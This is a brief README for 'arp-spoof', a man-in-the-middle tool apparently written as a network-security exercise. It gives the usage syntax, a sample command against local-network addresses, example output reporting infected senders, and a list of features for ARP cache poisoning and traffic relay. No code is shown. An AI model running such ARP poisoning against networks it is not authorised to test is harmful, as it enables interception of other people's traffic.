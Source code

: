 # arp-spoof
advanced arp spoofing

## syntax
```
syntax : arp-spoof <interface> <sender ip 1> <target ip 1> [<sender ip 2> <target ip 2>...]
sample : arp-spoof wlan0 192.168.10.2 192.168.10.1 192.168.10.1 192.168.10.2
```

## example result
```
Attacker IP: <ATTACKER_IP>
Attacker MAC: <ATTACKER_MAC>
[1] Sender MAC: <sender mac 1>
[1] Target MAC: <target mac 1>
[1] Sender infected!
[1] detect spoofed IP :: relay
[0] Sender MAC: <sender mac 2>
[0] Target MAC: <target mac 2>
[0] Sender infected!
[0] detect spoofed IP :: relay
[1] detect recover :: reinfect
```
- [<number>] means Pair(sender-target) key number


## functions
- send ARP infecting packet
- spoofed IP packet relay (to target)
- reinfect sender when arp recover
- support multiple pair


